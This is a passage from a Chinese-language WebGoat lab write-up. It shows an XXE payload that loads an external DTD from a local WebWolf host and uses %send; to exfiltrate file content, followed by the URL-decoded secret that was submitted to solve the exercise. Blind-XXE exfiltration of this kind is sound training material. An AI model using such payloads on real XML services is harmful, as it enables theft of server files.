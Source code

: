 ```xml
<!DOCTYPE author [
  <!ENTITY % ls SYSTEM "http://127.0.0.1:9090/WebWolf/files/testtest/attack.dtd">
%ls;
%print;
%send;
]>
<comment>
  <text>
end
</text></comment>
```

最后看到的
![](../images/Pasted%20image%2020241127090220.png)

用url解码`WebGoat 8.0 rocks... (XJvTsSxmYh)`
再评论上去


---

这篇就到这里吧，下一篇再继续写  
## @PHOEXINA
